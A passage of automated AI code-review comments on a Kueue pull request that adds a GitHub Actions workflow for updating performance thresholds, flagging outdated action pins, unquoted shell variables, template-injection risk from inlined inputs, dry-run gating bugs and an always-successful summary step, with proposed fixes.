  🏁 Script executed:
  
  ```shell
  #!/bin/bash
  set -euo pipefail
  
  # Inspect the actionlint image tag and whether the workflow has comments/directives related to version pinning.
  sed -n '1,80p' .github/workflows/performance-threshold-update.yml
  echo
  sed -n '120,155p' .github/workflows/performance-threshold-update.yml
  echo
  # Check whether repository files exist for possible go-version-file and current Go version.
  git ls-files | rg '(^|/)go.mod$|^actionlint'
  sed -n '1,80p' go.mod 2>/dev/null || true
  ```
  
  Repository: kubernetes-sigs/kueue
  
  Length of output: 7087
  
  ---
  
  
  
  </details>
  
  **Bump the outdated action majors.**
  
  Keep the workflow on supported GitHub Actions versions: `actions/setup-go@v4`, `actions/setup-python@v4`, and `peter-evans/create-pull-request@v5` are old major versions; update these pins, especially at `.github/workflows/performance-threshold-update.yml:43-50` and `:137-139`. Also replace `go-version: '1.21'` with `go-version-file: go.mod`, since `go.mod` declares Go 1.26.0.
  
  <details>
  <summary>🧰 Tools</summary>
  
  <details>
  <summary>🪛 actionlint (1.7.12)</summary>
  
  [error] 43-43: the runner of "actions/setup-go@v4" action is too old to run on GitHub Actions. update the action's version to fix this issue
  
  (action)
  
  ---
  
  [error] 48-48: the runner of "actions/setup-python@v4" action is too old to run on GitHub Actions. update the action's version to fix this issue
  
  (action)
  
  </details>
  
  </details>
  
  <details>
  <summary>🤖 Prompt for AI Agents</summary>
  
  ```
  Verify each finding against current code. Fix only still-valid issues, skip the
  rest with a brief reason, keep changes minimal, and validate.
  
  In @.github/workflows/performance-threshold-update.yml around lines 42 - 50,
  Update the workflow’s setup-go and setup-python action pins to current supported
  major versions, and update peter-evans/create-pull-request to its current
  supported major wherever used. In the “Set up Go” step, replace go-version:
  '1.21' with go-version-file: go.mod so the workflow follows the repository’s
  declared Go version.
  ```
  
  </details>
  
  <!-- fingerprinting:phantom:medusa:komodo -->
  
  <!-- cr-indicator-types:potential_issue -->
  
  <!-- cr-comment:v1:01130334ca0e65563fdc37b5 -->
  
  _Source: Linters/SAST tools_
  
  <!-- This is an auto-generated comment by CodeRabbit -->

- **.github/workflows/performance-threshold-update.yml:93** by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) — 2026-07-29T05:22:59Z
```diff
@@ -0,0 +1,215 @@
+name: Performance Threshold Update
+on:
+  workflow_dispatch:
+    inputs:
+      test_type:
+        description: 'Type of performance test'
+        required: true
+        default: 'baseline'
+        type: choice
+        options:
+          - baseline
+          - tas
+      num_runs:
+        description: 'Number of test runs to collect'
+        required: true
+        default: '5'
+        type: choice
+        options:
+          - '3'
+          - '5'
+          - '10'
+      dry_run:
+        description: 'Dry run (preview only, no changes)'
+        required: false
+        default: false
+        type: boolean
+  # Optional: Schedule weekly updates
+  # schedule:
+  #   - cron: '0 0 * * 0'
+
+jobs:
+  performance-tests:
+    runs-on: ubuntu-latest
+    timeout-minutes: 300  # 5 hours for multiple test runs
+    
+    steps:
+      - name: Checkout code
+        uses: actions/checkout@v4
+        with:
+          fetch-depth: 0
+      
+      - name: Set up Go
+        uses: actions/setup-go@v4
+        with:
+          go-version: '1.21'
+      
+      - name: Set up Python
+        uses: actions/setup-python@v4
+        with:
+          python-version: '3.11'
+      
+      - name: Install dependencies
+        run: |
+          pip install PyYAML
+      
+      - name: Display test configuration
+        run: |
+          echo "Test Configuration:"
+          echo "  Type: ${{ github.event.inputs.test_type }}"
+          echo "  Runs: ${{ github.event.inputs.num_runs }}"
+          echo "  Dry Run: ${{ github.event.inputs.dry_run }}"
+      
+      - name: Run performance tests (multiple times)
+        run: |
+          NUM_RUNS=${{ github.event.inputs.num_runs }}
+          TEST_TYPE=${{ github.event.inputs.test_type }}
+          
+          if [ "$TEST_TYPE" = "tas" ]; then
+            TEST_TARGET="run-tas-performance-scheduler"
+            BACKUP_DIR="run-tas-performance-scheduler"
+          else
+            TEST_TARGET="run-performance-scheduler"
+            BACKUP_DIR="run-performance-scheduler"
+          fi
+          
+          echo "Running $NUM_RUNS performance test(s)..."
+          for i in $(seq 1 $NUM_RUNS); do
+            echo ""
+            echo "========================================="
+            echo "Performance Test Run $i/$NUM_RUNS"
+            echo "========================================="
+            
+            make $TEST_TARGET
+            
+            # Backup results for analysis
+            if [ $i -lt $NUM_RUNS ]; then
+              mkdir -p "artifacts/${BACKUP_DIR}-backup-$i"
+              cp -r "artifacts/$BACKUP_DIR"/* "artifacts/${BACKUP_DIR}-backup-$i/"
+              echo "✓ Backed up run $i"
+            fi
+            
+            echo ""
+          done
```

  _🔒 Security & Privacy_ | _🟡 Minor_ | _⚡ Quick win_
  
  **Quote the expansions and move workflow inputs into `env`.**
  
  `$NUM_RUNS`, `$TEST_TYPE`, and `$TEST_TARGET` are unquoted (SC2086), and `cp -r "artifacts/$BACKUP_DIR"/*` aborts the job if the run produced no files. Interpolating `${{ github.event.inputs.* }}` directly into `run:` is also the pattern zizmor flags; the inputs are `choice`-constrained today, but binding them via `env:` removes the footgun if the input types ever loosen.
  
  
  
  
  
  <details>
  <summary>🐛 Proposed fix</summary>
  
  ```diff
         - name: Run performance tests (multiple times)
  +        env:
  +          NUM_RUNS: ${{ github.event.inputs.num_runs }}
  +          TEST_TYPE: ${{ github.event.inputs.test_type }}
           run: |
  -          NUM_RUNS=${{ github.event.inputs.num_runs }}
  -          TEST_TYPE=${{ github.event.inputs.test_type }}
  -          
             if [ "$TEST_TYPE" = "tas" ]; then
               TEST_TARGET="run-tas-performance-scheduler"
               BACKUP_DIR="run-tas-performance-scheduler"
             else
               TEST_TARGET="run-performance-scheduler"
               BACKUP_DIR="run-performance-scheduler"
             fi
             
             echo "Running $NUM_RUNS performance test(s)..."
  -          for i in $(seq 1 $NUM_RUNS); do
  +          for i in $(seq 1 "$NUM_RUNS"); do
               ...
  -            make $TEST_TARGET
  +            make "$TEST_TARGET"
               
               # Backup results for analysis
  -            if [ $i -lt $NUM_RUNS ]; then
  +            if [ "$i" -lt "$NUM_RUNS" ]; then
                 mkdir -p "artifacts/${BACKUP_DIR}-backup-$i"
  -              cp -r "artifacts/$BACKUP_DIR"/* "artifacts/${BACKUP_DIR}-backup-$i/"
  +              cp -r "artifacts/$BACKUP_DIR/." "artifacts/${BACKUP_DIR}-backup-$i/"
  ```
  
  Apply the same `env:`-binding treatment to the "Display test configuration", "Update thresholds", "Display changes", and "Summary" steps.
  </details>
  
  <!-- suggestion_start -->
  
  <details>
  <summary>📝 Committable suggestion</summary>
  
  > ‼️ **IMPORTANT**
  > Carefully review the code before committing. Ensure that it accurately replaces the highlighted code, contains no missing lines, and has no issues with indentation. Thoroughly test & benchmark the code to ensure it meets the requirements.
  
  ```suggestion
        - name: Run performance tests (multiple times)
          env:
            NUM_RUNS: ${{ github.event.inputs.num_runs }}
            TEST_TYPE: ${{ github.event.inputs.test_type }}
          run: |
            if [ "$TEST_TYPE" = "tas" ]; then
              TEST_TARGET="run-tas-performance-scheduler"
              BACKUP_DIR="run-tas-performance-scheduler"
            else
              TEST_TARGET="run-performance-scheduler"
              BACKUP_DIR="run-performance-scheduler"
            fi
            
            echo "Running $NUM_RUNS performance test(s)..."
            for i in $(seq 1 "$NUM_RUNS"); do
              echo ""
              echo "========================================="
              echo "Performance Test Run $i/$NUM_RUNS"
              echo "========================================="
              
              make "$TEST_TARGET"
              
              # Backup results for analysis
              if [ "$i" -lt "$NUM_RUNS" ]; then
                mkdir -p "artifacts/${BACKUP_DIR}-backup-$i"
                cp -r "artifacts/$BACKUP_DIR/." "artifacts/${BACKUP_DIR}-backup-$i/"
                echo "✓ Backed up run $i"
              fi
              
              echo ""
            done
  ```
  
  </details>
  
  <!-- suggestion_end -->
  
  <details>
  <summary>🧰 Tools</summary>
  
  <details>
  <summary>🪛 actionlint (1.7.12)</summary>
  
  [error] 64-64: shellcheck reported issue in this script: SC2086:info:22:8: Double quote to prevent globbing and word splitting
  
  (shellcheck)
  
  </details>
  <details>
  <summary>🪛 zizmor (1.28.0)</summary>
  
  [error] 65-65: code injection via template expansion (template-injection): may expand into attacker-controllable code
  
  (template-injection)
  
  ---
  
  [error] 66-66: code injection via template expansion (template-injection): may expand into attacker-controllable code
  
  (template-injection)
  
  </details>
  
  </details>
  
  <details>
  <summary>🤖 Prompt for AI Agents</summary>
  
  ```
  Verify each finding against current code. Fix only still-valid issues, skip the
  rest with a brief reason, keep changes minimal, and validate.
  
  In @.github/workflows/performance-threshold-update.yml around lines 63 - 93,
  Update the performance workflow steps, including “Run performance tests
  (multiple times)” and the referenced display, threshold, changes, and summary
  steps, to expose github.event.inputs values through step-level env variables
  instead of interpolating them directly in run scripts. Quote all variable
  expansions used in shell commands and make the backup copy tolerate an empty
  artifacts directory without aborting, while preserving the existing test
  selection and backup behavior.
  ```
  
  </details>
  
  <!-- fingerprinting:phantom:medusa:komodo -->
  
  <!-- cr-indicator-types:potential_issue -->
  
  <!-- cr-comment:v1:1eaa4bca01a381ac5934dd25 -->
  
  _Source: Linters/SAST tools_
  
  <!-- This is an auto-generated comment by CodeRabbit -->

- **.github/workflows/performance-threshold-update.yml:114** by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) — 2026-07-29T05:22:59Z
```diff
@@ -0,0 +1,215 @@
+name: Performance Threshold Update
+on:
+  workflow_dispatch:
+    inputs:
+      test_type:
+        description: 'Type of performance test'
+        required: true
+        default: 'baseline'
+        type: choice
+        options:
+          - baseline
+          - tas
+      num_runs:
+        description: 'Number of test runs to collect'
+        required: true
+        default: '5'
+        type: choice
+        options:
+          - '3'
+          - '5'
+          - '10'
+      dry_run:
+        description: 'Dry run (preview only, no changes)'
+        required: false
+        default: false
+        type: boolean
+  # Optional: Schedule weekly updates
+  # schedule:
+  #   - cron: '0 0 * * 0'
+
+jobs:
+  performance-tests:
+    runs-on: ubuntu-latest
+    timeout-minutes: 300  # 5 hours for multiple test runs
+    
+    steps:
+      - name: Checkout code
+        uses: actions/checkout@v4
+        with:
+          fetch-depth: 0
+      
+      - name: Set up Go
+        uses: actions/setup-go@v4
+        with:
+          go-version: '1.21'
+      
+      - name: Set up Python
+        uses: actions/setup-python@v4
+        with:
+          python-version: '3.11'
+      
+      - name: Install dependencies
+        run: |
+          pip install PyYAML
+      
+      - name: Display test configuration
+        run: |
+          echo "Test Configuration:"
+          echo "  Type: ${{ github.event.inputs.test_type }}"
+          echo "  Runs: ${{ github.event.inputs.num_runs }}"
+          echo "  Dry Run: ${{ github.event.inputs.dry_run }}"
+      
+      - name: Run performance tests (multiple times)
+        run: |
+          NUM_RUNS=${{ github.event.inputs.num_runs }}
+          TEST_TYPE=${{ github.event.inputs.test_type }}
+          
+          if [ "$TEST_TYPE" = "tas" ]; then
+            TEST_TARGET="run-tas-performance-scheduler"
+            BACKUP_DIR="run-tas-performance-scheduler"
+          else
+            TEST_TARGET="run-performance-scheduler"
+            BACKUP_DIR="run-performance-scheduler"
+          fi
+          
+          echo "Running $NUM_RUNS performance test(s)..."
+          for i in $(seq 1 $NUM_RUNS); do
+            echo ""
+            echo "========================================="
+            echo "Performance Test Run $i/$NUM_RUNS"
+            echo "========================================="
+            
+            make $TEST_TARGET
+            
+            # Backup results for analysis
+            if [ $i -lt $NUM_RUNS ]; then
+              mkdir -p "artifacts/${BACKUP_DIR}-backup-$i"
+              cp -r "artifacts/$BACKUP_DIR"/* "artifacts/${BACKUP_DIR}-backup-$i/"
+              echo "✓ Backed up run $i"
+            fi
+            
+            echo ""
+          done
+      
+      - name: Verify metrics collected
+        run: |
+          echo "Verifying performance metrics..."
+          if find ./artifacts -name "summary.yaml" | grep -q .; then
+            echo "✓ Found summary files:"
+            find ./artifacts -name "summary.yaml" -type f
+          else
+            echo "✗ No summary files found!"
+            exit 1
+          fi
+      
+      - name: Calculate thresholds (dry-run)
+        run: |
+          echo "Calculating thresholds (preview mode)..."
+          python3 hack/performance-threshold-automation/calculate_performance_thresholds.py \
+            --artifacts-dir ./artifacts \
+            --dry-run
+      
+      - name: Update thresholds
+        if: github.event.inputs.dry_run == 'false'
```

  _🎯 Functional Correctness_ | _🟡 Minor_ | _⚡ Quick win_
  
  **Dead `dependabot` guard, and the `dry_run` gating breaks if the commented-out schedule is enabled.**
  
  This workflow is `workflow_dispatch`-only, so `github.actor != 'dependabot[bot]'` can never be false. More importantly, on a `schedule` trigger `github.event.inputs.*` is empty, so `== 'false'` evaluates false and every write step — plus the whole `validation` job — silently skips. Use `!fromJSON(inputs.dry_run)` (with a default) if you plan to uncomment Lines 27-29.
  
  
  
  
  
  Also applies to: 138-138, 27-29
  
  <details>
  <summary>🤖 Prompt for AI Agents</summary>
  
  ```
  Verify each finding against current code. Fix only still-valid issues, skip the
  rest with a brief reason, keep changes minimal, and validate.
  
  In @.github/workflows/performance-threshold-update.yml around lines 113 - 114,
  Update the dry-run gating for the “Update thresholds” step, the validation job,
  and the corresponding schedule entries to use the typed inputs context with a
  false default when no dispatch input exists. Remove any dependabot actor guard,
  and ensure scheduled runs proceed with writes and validation when dry_run is
  absent.
  ```
  
  </details>
  
  <!-- fingerprinting:phantom:medusa:komodo -->
  
  <!-- cr-indicator-types:potential_issue -->
  
  <!-- cr-comment:v1:75b84cc31fdd3e7a2f71ac85 -->
  
  <!-- This is an auto-generated comment by CodeRabbit -->

- **.github/workflows/performance-threshold-update.yml:149** by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) — 2026-07-29T05:22:59Z
```diff
@@ -0,0 +1,215 @@
+name: Performance Threshold Update
+on:
+  workflow_dispatch:
+    inputs:
+      test_type:
+        description: 'Type of performance test'
+        required: true
+        default: 'baseline'
+        type: choice
+        options:
+          - baseline
+          - tas
+      num_runs:
+        description: 'Number of test runs to collect'
+        required: true
+        default: '5'
+        type: choice
+        options:
+          - '3'
+          - '5'
+          - '10'
+      dry_run:
+        description: 'Dry run (preview only, no changes)'
+        required: false
+        default: false
+        type: boolean
+  # Optional: Schedule weekly updates
+  # schedule:
+  #   - cron: '0 0 * * 0'
+
+jobs:
+  performance-tests:
+    runs-on: ubuntu-latest
+    timeout-minutes: 300  # 5 hours for multiple test runs
+    
+    steps:
+      - name: Checkout code
+        uses: actions/checkout@v4
+        with:
+          fetch-depth: 0
+      
+      - name: Set up Go
+        uses: actions/setup-go@v4
+        with:
+          go-version: '1.21'
+      
+      - name: Set up Python
+        uses: actions/setup-python@v4
+        with:
+          python-version: '3.11'
+      
+      - name: Install dependencies
+        run: |
+          pip install PyYAML
+      
+      - name: Display test configuration
+        run: |
+          echo "Test Configuration:"
+          echo "  Type: ${{ github.event.inputs.test_type }}"
+          echo "  Runs: ${{ github.event.inputs.num_runs }}"
+          echo "  Dry Run: ${{ github.event.inputs.dry_run }}"
+      
+      - name: Run performance tests (multiple times)
+        run: |
+          NUM_RUNS=${{ github.event.inputs.num_runs }}
+          TEST_TYPE=${{ github.event.inputs.test_type }}
+          
+          if [ "$TEST_TYPE" = "tas" ]; then
+            TEST_TARGET="run-tas-performance-scheduler"
+            BACKUP_DIR="run-tas-performance-scheduler"
+          else
+            TEST_TARGET="run-performance-scheduler"
+            BACKUP_DIR="run-performance-scheduler"
+          fi
+          
+          echo "Running $NUM_RUNS performance test(s)..."
+          for i in $(seq 1 $NUM_RUNS); do
+            echo ""
+            echo "========================================="
+            echo "Performance Test Run $i/$NUM_RUNS"
+            echo "========================================="
+            
+            make $TEST_TARGET
+            
+            # Backup results for analysis
+            if [ $i -lt $NUM_RUNS ]; then
+              mkdir -p "artifacts/${BACKUP_DIR}-backup-$i"
+              cp -r "artifacts/$BACKUP_DIR"/* "artifacts/${BACKUP_DIR}-backup-$i/"
+              echo "✓ Backed up run $i"
+            fi
+            
+            echo ""
+          done
+      
+      - name: Verify metrics collected
+        run: |
+          echo "Verifying performance metrics..."
+          if find ./artifacts -name "summary.yaml" | grep -q .; then
+            echo "✓ Found summary files:"
+            find ./artifacts -name "summary.yaml" -type f
+          else
+            echo "✗ No summary files found!"
+            exit 1
+          fi
+      
+      - name: Calculate thresholds (dry-run)
+        run: |
+          echo "Calculating thresholds (preview mode)..."
+          python3 hack/performance-threshold-automation/calculate_performance_thresholds.py \
+            --artifacts-dir ./artifacts \
+            --dry-run
+      
+      - name: Update thresholds
+        if: github.event.inputs.dry_run == 'false'
+        run: |
+          TEST_TYPE=${{ github.event.inputs.test_type }}
+          
+          if [ "$TEST_TYPE" = "tas" ]; then
+            make update-tas-thresholds
+          else
+            make update-performance-thresholds
+          fi
+      
+      - name: Display changes
+        run: |
+          TEST_TYPE=${{ github.event.inputs.test_type }}
+          
+          if [ "$TEST_TYPE" = "tas" ]; then
+            RANGESPEC="test/performance/scheduler/configs/tas/rangespec.yaml"
+          else
+            RANGESPEC="test/performance/scheduler/configs/baseline/rangespec.yaml"
+          fi
+          
+          echo "Changes to $RANGESPEC:"
+          git diff $RANGESPEC || echo "No changes"
+      
+      - name: Create Pull Request
+        if: github.event.inputs.dry_run == 'false' && github.actor != 'dependabot[bot]'
+        uses: peter-evans/create-pull-request@v5
+        with:
+          token: ${{ secrets.GITHUB_TOKEN }}
+          commit-message: |
+            chore: update ${{ github.event.inputs.test_type }} performance thresholds
+            
+            Based on analysis of ${{ github.event.inputs.num_runs }} test run(s).
+            
+            - Updates performance test thresholds using statistical analysis
+            - Thresholds = mean + margin (20% for time, -7% for utilization)
+            - Closes #12841
```

  _📐 Maintainability & Code Quality_ | _🟠 Major_ | _⚡ Quick win_
  
  **Remove the auto-close keyword from the generated commit message.**
  
  `- Closes `#12841`` lands in the commit message of every generated PR. Move the issue reference into the PR body only (Line 171 already has it).
  
  As per coding guidelines: "Do not include auto-close issue keywords or `#` mentions in commit messages; put issue references in pull request descriptions instead."
  
  
  
  
  
  <details>
  <summary>🐛 Proposed fix</summary>
  
  ```diff
             commit-message: |
               chore: update ${{ github.event.inputs.test_type }} performance thresholds
               
               Based on analysis of ${{ github.event.inputs.num_runs }} test run(s).
               
               - Updates performance test thresholds using statistical analysis
               - Thresholds = mean + margin (20% for time, -7% for utilization)
  -            - Closes `#12841`
  ```
  </details>
  
  <!-- suggestion_start -->
  
  <details>
  <summary>📝 Committable suggestion</summary>
  
  > ‼️ **IMPORTANT**
  > Carefully review the code before committing. Ensure that it accurately replaces the highlighted code, contains no missing lines, and has no issues with indentation. Thoroughly test & benchmark the code to ensure it meets the requirements.
  
  ```suggestion
            commit-message: |
              chore: update ${{ github.event.inputs.test_type }} performance thresholds
              
              Based on analysis of ${{ github.event.inputs.num_runs }} test run(s).
              
              - Updates performance test thresholds using statistical analysis
              - Thresholds = mean + margin (20% for time, -7% for utilization)
  ```
  
  </details>
  
  <!-- suggestion_end -->
  
  <details>
  <summary>🤖 Prompt for AI Agents</summary>
  
  ```
  Verify each finding against current code. Fix only still-valid issues, skip the
  rest with a brief reason, keep changes minimal, and validate.
  
  In @.github/workflows/performance-threshold-update.yml around lines 142 - 149,
  Remove the “Closes `#12841`” line from the commit-message template in the
  performance-threshold workflow, leaving the existing issue reference in the pull
  request body at the established location.
  ```
  
  </details>
  
  <!-- fingerprinting:phantom:medusa:komodo -->
  
  <!-- cr-indicator-types:potential_issue -->
  
  <!-- cr-comment:v1:e0a001e558bd959eb8a975d5 -->
  
  _Source: Coding guidelines_
  
  <!-- This is an auto-generated comment by CodeRabbit -->

- **.github/workflows/performance-threshold-update.yml:194** by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) — 2026-07-29T05:22:59Z
```diff
@@ -0,0 +1,215 @@
+name: Performance Threshold Update
+on:
+  workflow_dispatch:
+    inputs:
+      test_type:
+        description: 'Type of performance test'
+        required: true
+        default: 'baseline'
+        type: choice
+        options:
+          - baseline
+          - tas
+      num_runs:
+        description: 'Number of test runs to collect'
+        required: true
+        default: '5'
+        type: choice
+        options:
+          - '3'
+          - '5'
+          - '10'
+      dry_run:
+        description: 'Dry run (preview only, no changes)'
+        required: false
+        default: false
+        type: boolean
+  # Optional: Schedule weekly updates
+  # schedule:
+  #   - cron: '0 0 * * 0'
+
+jobs:
+  performance-tests:
+    runs-on: ubuntu-latest
+    timeout-minutes: 300  # 5 hours for multiple test runs
+    
+    steps:
+      - name: Checkout code
+        uses: actions/checkout@v4
+        with:
+          fetch-depth: 0
+      
+      - name: Set up Go
+        uses: actions/setup-go@v4
+        with:
+          go-version: '1.21'
+      
+      - name: Set up Python
+        uses: actions/setup-python@v4
+        with:
+          python-version: '3.11'
+      
+      - name: Install dependencies
+        run: |
+          pip install PyYAML
+      
+      - name: Display test configuration
+        run: |
+          echo "Test Configuration:"
+          echo "  Type: ${{ github.event.inputs.test_type }}"
+          echo "  Runs: ${{ github.event.inputs.num_runs }}"
+          echo "  Dry Run: ${{ github.event.inputs.dry_run }}"
+      
+      - name: Run performance tests (multiple times)
+        run: |
+          NUM_RUNS=${{ github.event.inputs.num_runs }}
+          TEST_TYPE=${{ github.event.inputs.test_type }}
+          
+          if [ "$TEST_TYPE" = "tas" ]; then
+            TEST_TARGET="run-tas-performance-scheduler"
+            BACKUP_DIR="run-tas-performance-scheduler"
+          else
+            TEST_TARGET="run-performance-scheduler"
+            BACKUP_DIR="run-performance-scheduler"
+          fi
+          
+          echo "Running $NUM_RUNS performance test(s)..."
+          for i in $(seq 1 $NUM_RUNS); do
+            echo ""
+            echo "========================================="
+            echo "Performance Test Run $i/$NUM_RUNS"
+            echo "========================================="
+            
+            make $TEST_TARGET
+            
+            # Backup results for analysis
+            if [ $i -lt $NUM_RUNS ]; then
+              mkdir -p "artifacts/${BACKUP_DIR}-backup-$i"
+              cp -r "artifacts/$BACKUP_DIR"/* "artifacts/${BACKUP_DIR}-backup-$i/"
+              echo "✓ Backed up run $i"
+            fi
+            
+            echo ""
+          done
+      
+      - name: Verify metrics collected
+        run: |
+          echo "Verifying performance metrics..."
+          if find ./artifacts -name "summary.yaml" | grep -q .; then
+            echo "✓ Found summary files:"
+            find ./artifacts -name "summary.yaml" -type f
+          else
+            echo "✗ No summary files found!"
+            exit 1
+          fi
+      
+      - name: Calculate thresholds (dry-run)
+        run: |
+          echo "Calculating thresholds (preview mode)..."
+          python3 hack/performance-threshold-automation/calculate_performance_thresholds.py \
+            --artifacts-dir ./artifacts \
+            --dry-run
+      
+      - name: Update thresholds
+        if: github.event.inputs.dry_run == 'false'
+        run: |
+          TEST_TYPE=${{ github.event.inputs.test_type }}
+          
+          if [ "$TEST_TYPE" = "tas" ]; then
+            make update-tas-thresholds
+          else
+            make update-performance-thresholds
+          fi
+      
+      - name: Display changes
+        run: |
+          TEST_TYPE=${{ github.event.inputs.test_type }}
+          
+          if [ "$TEST_TYPE" = "tas" ]; then
+            RANGESPEC="test/performance/scheduler/configs/tas/rangespec.yaml"
+          else
+            RANGESPEC="test/performance/scheduler/configs/baseline/rangespec.yaml"
+          fi
+          
+          echo "Changes to $RANGESPEC:"
+          git diff $RANGESPEC || echo "No changes"
+      
+      - name: Create Pull Request
+        if: github.event.inputs.dry_run == 'false' && github.actor != 'dependabot[bot]'
+        uses: peter-evans/create-pull-request@v5
+        with:
+          token: ${{ secrets.GITHUB_TOKEN }}
+          commit-message: |
+            chore: update ${{ github.event.inputs.test_type }} performance thresholds
+            
+            Based on analysis of ${{ github.event.inputs.num_runs }} test run(s).
+            
+            - Updates performance test thresholds using statistical analysis
+            - Thresholds = mean + margin (20% for time, -7% for utilization)
+            - Closes #12841
+          title: 'chore: update performance thresholds (${{ github.event.inputs.test_type }})'
+          body: |
+            ## Performance Threshold Update
+            
+            This PR automatically updates performance test thresholds based on historical test results.
+            
+            **Configuration:**
+            - Test Type: `${{ github.event.inputs.test_type }}`
+            - Runs Analyzed: `${{ github.event.inputs.num_runs }}`
+            - Method: Statistical analysis (mean + margin)
+            
+            **Changes:**
+            - Updated threshold values in `rangespec.yaml`
+            - Based on ${{ github.event.inputs.num_runs }} test run(s)
+            
+            **Review Checklist:**
+            - [ ] Review threshold changes
+            - [ ] Verify margin values are appropriate
+            - [ ] Confirm no regressions in metrics
+            - [ ] Check for any anomalies in the data
+            
+            **Related Issue:** #12841 - Automated script to set performance threshold based on historical results and stat analysis
+            
+            ---
+            *Generated by Performance Threshold Automation*
+          branch: perf-threshold-update-${{ github.run_number }}
+          delete-branch: true
+          labels: |
+            type/maintenance
+            area/performance
+            automated
+      
+      - name: Summary
+        if: always()
+        run: |
+          echo "## Performance Threshold Update Summary" >> $GITHUB_STEP_SUMMARY
+          echo "" >> $GITHUB_STEP_SUMMARY
+          echo "**Configuration:**" >> $GITHUB_STEP_SUMMARY
+          echo "- Test Type: ${{ github.event.inputs.test_type }}" >> $GITHUB_STEP_SUMMARY
+          echo "- Runs: ${{ github.event.inputs.num_runs }}" >> $GITHUB_STEP_SUMMARY
+          echo "- Dry Run: ${{ github.event.inputs.dry_run }}" >> $GITHUB_STEP_SUMMARY
+          echo "" >> $GITHUB_STEP_SUMMARY
+          echo "**Status:** ✓ Complete" >> $GITHUB_STEP_SUMMARY
+          echo "" >> $GITHUB_STEP_SUMMARY
+          echo "Check the workflow logs for detailed analysis." >> $GITHUB_STEP_SUMMARY
```

  _🎯 Functional Correctness_ | _🟡 Minor_ | _⚡ Quick win_
  
  **Summary always reports success.**
  
  With `if: always()` the step writes `**Status:** ✓ Complete` even when earlier steps failed. Derive the status from the job context.
  
  
  
  
  <details>
  <summary>🐛 Proposed fix</summary>
  
  ```diff
  -          echo "**Status:** ✓ Complete" >> $GITHUB_STEP_SUMMARY
  +          echo "**Status:** ${{ job.status }}" >> "$GITHUB_STEP_SUMMARY"
  ```
  </details>
  
  <!-- suggestion_start -->
  
  <details>
  <summary>📝 Committable suggestion</summary>
  
  > ‼️ **IMPORTANT**
  > Carefully review the code before committing. Ensure that it accurately replaces the highlighted code, contains no missing lines, and has no issues with indentation. Thoroughly test & benchmark the code to ensure it meets the requirements.
  
  ```suggestion
        - name: Summary
          if: always()
          run: |
            echo "## Performance Threshold Update Summary" >> $GITHUB_STEP_SUMMARY
            echo "" >> $GITHUB_STEP_SUMMARY
            echo "**Configuration:**" >> $GITHUB_STEP_SUMMARY
            echo "- Test Type: ${{ github.event.inputs.test_type }}" >> $GITHUB_STEP_SUMMARY
            echo "- Runs: ${{ github.event.inputs.num_runs }}" >> $GITHUB_STEP_SUMMARY
            echo "- Dry Run: ${{ github.event.inputs.dry_run }}" >> $GITHUB_STEP_SUMMARY
            echo "" >> $GITHUB_STEP_SUMMARY
            echo "**Status:** ${{ job.status }}" >> "$GITHUB_STEP_SUMMARY"
            echo "" >> $GITHUB_STEP_SUMMARY
            echo "Check the workflow logs for detailed analysis." >> $GITHUB_STEP_SUMMARY
  ```
  
  </details>
  
  <!-- suggestion_end -->
  
  <details>
  <summary>🧰 Tools</summary>
  
  <details>
  <summary>🪛 actionlint (1.7.12)</summary>
  
  [error] 184-184: shellcheck reported issue in this script: SC2086:info:10:58: Double quote to prevent globbing and word splitting
  
  (shellcheck)
  
  ---
  
  [error] 184-184: shellcheck reported issue in this script: SC2086:info:1:51: Double quote to prevent globbing and word splitting
  
  (shellcheck)
  
  ---
  
  [error] 184-184: shellcheck reported issue in this script: SC2086:info:2:12: Double quote to prevent globbing and word splitting
  
  (shellcheck)
  
  ---
  
  [error] 184-184: shellcheck reported issue in this script: SC2086:info:3:30: Double quote to prevent globbing and word splitting
  
  (shellcheck)
  
  ---
  
  [error] 184-184: shellcheck reported issue in this script: SC2086:info:4:61: Double quote to prevent globbing and word splitting
  
  (shellcheck)
  
  ---
  
  [error] 184-184: shellcheck reported issue in this script: SC2086:info:5:55: Double quote to prevent globbing and word splitting
  
  (shellcheck)
  
  ---
  
  [error] 184-184: shellcheck reported issue in this script: SC2086:info:6:57: Double quote to prevent globbing and word splitting
  
  (shellcheck)
  
  ---
  
  [error] 184-184: shellcheck reported issue in this script: SC2086:info:7:12: Double quote to prevent globbing and word splitting
  
  (shellcheck)
  
  ---
  
  [error] 184-184: shellcheck reported issue in this script: SC2086:info:8:34: Double quote to prevent globbing and word splitting
  
  (shellcheck)
  
  ---
  
  [error] 184-184: shellcheck reported issue in this script: SC2086:info:9:12: Double quote to prevent globbing and word splitting
  
  (shellcheck)
  
  ---
  
  [error] 184-184: shellcheck reported issue in this script: SC2129:style:1:1: Consider using { cmd1; cmd2; } >> file instead of individual redirects
  
  (shellcheck)
  
  </details>
  <details>
  <summary>🪛 zizmor (1.28.0)</summary>
  
  [error] 188-188: code injection via template expansion (template-injection): may expand into attacker-controllable code
  
  (template-injection)
  
  ---
  
  [error] 189-189: code injection via template expansion (template-injection): may expand into attacker-controllable code
  
  (template-injection)
  
  ---
  
  [error] 190-190: code injection via template expansion (template-injection): may expand into attacker-controllable code
  
  (template-injection)
  
  </details>
  
  </details>
  
  <details>
  <summary>🤖 Prompt for AI Agents</summary>
  
  ```
  Verify each finding against current code. Fix only still-valid issues, skip the
  rest with a brief reason, keep changes minimal, and validate.
  
  In @.github/workflows/performance-threshold-update.yml around lines 182 - 194,
  Update the “Summary” step’s status output to derive success or failure from the
  GitHub Actions job context instead of always writing “✓ Complete”. Preserve the
  existing summary content and `if: always()` behavior while ensuring failed
  earlier steps are reported as unsuccessful.
  ```
  
  </details>
  
  <!-- fingerprinting:phantom:medusa:komodo -->
  
  <!-- cr-indicator-types:potential_issue -->
  
  <!-- cr-comment:v1:c8e5ff9998cceae65ebb7614 -->
  
  <!-- This is an auto-generated comment by CodeRabbit -->

- **.github/workflows/performance-threshold-update.yml:215** by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) — 2026-07-29T05:23:00Z
```diff
@@ -0,0 +1,215 @@
+name: Performance Threshold Update
+on:
+  workflow_dispatch:
+    inputs:
+      test_type:
+        description: 'Type of performance test'
+        required: true
+        default: 'baseline'
+        type: choice
+        options:
+          - baseline
+          - tas
+      num_runs:
+        description: 'Number of test runs to collect'
+        required: true
+        default: '5'
+        type: choice
+        options:
